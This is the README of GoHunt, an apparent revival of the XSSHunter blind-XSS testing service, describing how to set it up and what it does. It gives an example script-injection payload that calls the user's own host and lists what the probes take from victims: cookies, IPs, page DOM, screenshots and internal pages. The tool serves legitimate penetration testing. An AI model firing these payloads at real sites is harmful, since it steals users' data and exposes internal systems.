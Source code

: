 # GoHunt

A revival of [XSSHunter](https://github.com/mandatoryprogrammer/xsshunter), `GoHunt` brings all your favorite `XSSHunter` functionality. Plus quality of life improvements!

Main changes:
- Single golang binary or docker deployment
- Additional notification methods 
- Bulk deletion/editing 
- Single Sign on


## Requirements
* A domain name
* Docker/Podman
* Ability to set DNS records

## Setup

Set a wildcard DNS record to your GoHunt instance
```sh
example.com A <YOUR INSTANCE IP>
*.example.com CNAME example.com
```

Create an `.env` file, you can use the `.env.dev` as a template.
```sh
DOMAIN=localhost:8081
GOHUNT_USERNAME=test
DB_PASSWORD=averystrongpassword
#GOHUNT_PASSWORD=yourstrongpasswordhere (optional)
```

Remember to set your `DOMAIN`!

Start the `docker-compose.yaml`:
```sh
docker compose -f docker-compose.yaml up -d
```

Thats it!


## Summary of Functionality
*Upon signing up you will create a subdomain such as `yoursubdomain.example.com` which identifies your XSS vulnerabilities and hosts your payload. You then use this subdomain in your XSS testing, using injection attempts such as `"><script src=//yoursubdomain.example.com></script>`. GoHunt will automatically serve up XSS probes and collect the resulting information when they fire.*

## Features
* **Single Sign-on** GoHunt supports OIDC for logging in to your service
* **User Management** Admin users can update and edit user records
* **Managed XSS payload fires**: Manage all of your XSS payloads in your GoHunt account's control panel, including bulk deleting
* **Powerful XSS Probes**: The following information is collected everytime a probe fires on a vulnerable page:
    * The vulnerable page's URI 
    * Origin of Execution 
    * The Victim's IP Address 
    * The Page Referer 
    * The Victim's User Agent 
    * All Non-HTTP-Only Cookies 
    * The Page's Full HTML DOM 
    * Full Screenshot of the Affected Page 
    * Responsible HTTP Request (If an GoHunt compatible tool is used) 
* **Full Page Screenshots**: GoHunt probes utilize the HTML5 canvas API to generate a full screenshot of the vulnerable page which an XSS payload has fired on. With this feature you can peak into internal administrative panels, support desks, logging systems, and other internal web apps. This allows for more powerful reports that show the full impact of the vulnerability to your client or bug bounty program.
* **XSS Payloads Fire Notifications**: XSS payload fires also send out **webhooks** or **email** notifications, your choice!
* **Automatic Payload Generation**: GoHunt automatically generates XSS payloads for you to use in your web application security testing.
* **Correlated Injections**: Perhaps the most powerful feature of GoHunt is the ability to correlated injection attempts with XSS payload fires. By using an [GoHunt/XSSHunter compatible testing tool](https://github.com/mandatoryprogrammer/xsshunter_client) you can know immediately what caused a specific payload to fire (even weeks after the injection attempt was made!).
* **Option PGP Encryption for Payload Emails**: Extra paranoid? Client-side PGP encryption is available which will encrypt all injection data in the victim's browser before sending it off to the GoHunt service.
* **Page Grabbing**: Upon your XSS payload firing you can specify a list of relative paths for the payload to automatically retrieve and store. This is useful in finding other vulnerabilities such as bad `crossdomain.xml` policies on internal systems which normally couldn't be accessed.
* **Secondary Payload Loading**: Got a secondary payload that you want to load after GoHunt has done it's thing? GoHunt offers you the option to specify a secondary JavaScript payload to run after it's completed it's collection.
* **Confidential Mode**: Dont want to send any details with your notifications? To be safe, this option only means you get notification and no details to your **slack**, **discord**, or email inbox
